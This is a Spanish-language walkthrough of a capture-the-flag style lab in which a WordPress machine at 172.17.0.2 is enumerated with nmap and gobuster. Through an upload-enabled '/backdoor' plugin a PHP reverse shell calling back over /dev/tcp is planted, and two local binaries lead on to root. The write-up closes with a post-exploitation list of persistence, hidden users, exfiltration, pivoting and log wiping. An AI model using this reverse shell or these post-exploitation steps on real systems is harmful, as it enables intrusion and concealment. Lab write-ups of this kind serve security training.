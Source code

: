 # Escalada de privilegios en entorno WordPress

---

## 1. 📡 Comprobación de Conectividad

```bash
ping 172.17.0.2
```

---

## 2. 🔍 Escaneo de Puertos Abiertos

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

**Puertos abiertos detectados:**

| Puerto   | Servicio |
|----------|----------|
| 80/tcp   | HTTP     |

---

## 3. 🔎 Detección de Versiones de Servicios

```bash
nmap -p80 -sCV 172.17.0.2
```

**Resultados:**

| Puerto   | Servicio                                  |
|----------|-------------------------------------------|
| 80/tcp   | Apache httpd 2.4.58 (Ubuntu)              |

---

## 4. 📁 Enumeración de Directorios vía HTTP

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirb/common.txt
```

**Rutas relevantes encontradas:**

```
/index.php            → Redirecciona a raíz del sitio
/wp-admin             → Panel de administración WordPress
/wp-content           → Contenido de WordPress
/wp-includes          → Archivos core de WordPress
/xmlrpc.php           → Redirecciona a http://devil.lab
```

---

## 5. 📂 Exploración en profundidad: `wp-content`

```bash
gobuster dir -u http://devil.lab/wp-content -w /usr/share/wordlists/dirb/common.txt
```

**Directorios detectados:**

```
/plugins              → http://devil.lab/wp-content/plugins/
/themes               → http://devil.lab/wp-content/themes/
/uploads              → http://devil.lab/wp-content/uploads/
```

---

## 6. 🔬 Exploración: `plugins`

```bash
gobuster dir -u http://devil.lab/wp-content/plugins -w /usr/share/wordlists/dirb/common.txt
```

**Ruta interesante:**

```
/backdoor             → http://devil.lab/wp-content/plugins/backdoor/
```

---

## 7. 🚪 Acceso a `/backdoor`

Se puede acceder y se permite **subida de archivos**. Al enumerar su contenido:

```
/uploads              → Directorio accesible para ejecución de archivos
/index.php            → Tamaño: 2135 bytes (posiblemente panel de subida)
```

---

## 8. 🐚 Reverse Shell

Creamos una **reverse shell** con el siguiente código en `shell.php`:

```php
<?php
system("/bin/bash -c 'bash -i >& /dev/tcp/172.17.0.1/1234 0>&1'");
?>
```

Luego, accedemos a el archivo desde el navegador con 

```bash
nc -lvnp 1234
```

obtenemos acceso como el usuario:

```
www-data
```

---

## 9. 👥 Enumeración de Usuarios

Ubicación: `/home`

```
lucas/
andy/ ✅
ubuntu/
```

Tenemos acceso al usuario `andy`.

---

## 10. 📜 Revisión de Historial

```bash
cat /home/andy/.bash_history
```

Descubrimos un directorio oculto:

```
.secrets/
```

**Contenido:**

- `escalate.c`
- `ftpserver` (binario)

Al ejecutar el binario:

```bash
./ftpserver
```

Obtenemos acceso como **lucas**.

---

## 11. 🎮 Escalada desde `lucas` a `root`

En `/home/lucas/.game` encontramos:

- `game.c`
- `EligeOMuere` (binario)

Revisamos el código fuente:

```c
// Número hardcodeado: 7
// Si aciertas, obtienes shell como root
```

Ejecutamos:

```bash
./EligeOMuere
```

✅ **Obtenemos acceso root**

---

## 12. 🔧 Post-Explotación

Con acceso como root se recomienda:

- ✅ **Persistencia:** agregar usuarios o cron jobs
- 👤 Crear usuarios ocultos
- 🔐 Añadir claves públicas SSH
- 📦 Exfiltrar información sensible
- 🌐 Explorar la red interna
- 🔀 Pivoting hacia otras máquinas
- 🧹 Borrado de logs y huellas
- ⚠️ Destrucción del sistema (sólo en entornos de prueba)

